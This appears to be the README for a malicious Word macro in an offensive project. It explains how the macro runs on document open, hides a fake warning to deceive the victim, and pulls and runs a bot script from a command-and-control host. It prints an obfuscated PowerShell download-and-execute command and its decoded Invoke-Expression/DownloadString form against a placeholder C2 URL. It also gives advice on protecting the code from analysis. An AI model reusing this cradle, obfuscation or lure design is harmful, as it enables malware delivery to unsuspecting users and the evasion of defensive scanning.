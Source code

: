 Word Document:

The macro uses Document_Open() to run as soon as macros are enabled. It first hides the fake warning message using Shape.Visible = False , giving the impression that the message was legitimate. It then connects to the command and control center at http://CNC_URL, downloads the plain-text bot script, and executes it in a new Powershell process. This way, the connection persists after the Word document is closed. Nothing is written to disk at this point. The encoded command used to connect is a Base64 representation of this obfuscated command:

"&('{1}{0}'-f'x','iE')((.('{0}{1}{2}{3}'-f[char]110,'eW','-oBj','eCt')('{0}{2}{1}'-f'nEt.WeBC','ENT','Li')).('{1}{0}{2}'-f'adStRin','DownLO',[char]103)(('{1}{2}{2}{3}{0}'-f'_URL','h',[char]116,'p://CNC')))"

which in turn translates to:

Invoke-Expression( (New-Object Net.WebClient).DownloadString('http://CNC_URL') )

You can view the VBA code using password "Password1". Added it as most booby-trapped macro-enabled documents protect their code with a password. They're trivial to bypass - you can replace the password with a different one using a hex editor. Still, they provide some layer of protection against curious end-users and automated analysis software.
